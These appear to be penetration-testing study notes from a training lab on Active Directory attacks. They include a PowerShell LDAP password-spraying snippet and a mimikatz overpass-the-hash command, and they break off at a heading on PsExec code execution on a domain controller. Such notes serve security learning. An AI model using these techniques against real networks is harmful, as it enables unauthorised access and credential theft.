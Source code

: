 Will use LDAP and ADSI to perform the attack without triggering a account lockout

Domain's account policy can be checked using net accounts

![314c3a15a0499d844cf0e296dc958561.png](:/00025d3a270a4dcfb826455dd095d0b3)

We can use our powershell script to demonstrate the basic components.

Use the function DirectoryEntry constructor to perform queries to the DC as any user that we know the login to

```Powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishName = "DC=$($domainObj.Name.Replace('.',',DC='))"

$SearchString += $DistinguishName
New-Object System.DirectoryServices.DirectoryEntry($Searchstring, "username", "Qwerty09!")
```

![985c4eba39ff324baaf6eea227a2d5d6.png](:/d8f92b6eaa154116bbcb776f5801a5e3)

You can look at Spray-Passwords.ps1 inside the downloads folder (or locate it )

# Lateral Movement

Using only the user's password hash or kerberos ticket - For escalation

Pass-the-Hash - see pth-winexe

## Overpass the hash

"Over" abuse a  NTLM user hash to gain Kerberos TGT or service ticket, similar to pth-winexe

In mimikatz

> sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:&lt;NTLMhash&gt; /run:Powershell.exe

Once we are in, list the kerberos tickets with klist

If no tickets are available, we can generate a TGT by authenticating to a network share on DC

> net use \\\dc01
> 
> klist

![30be3f0779d3569412dca5fc83ee6b85.png](:/16c8ba6b552d4c258c9a200d4a00557a)

With the Kerberos TGT, we can use any tools that rely on its auth.

**Obtain Code Execution on the DC (using PsExec)**
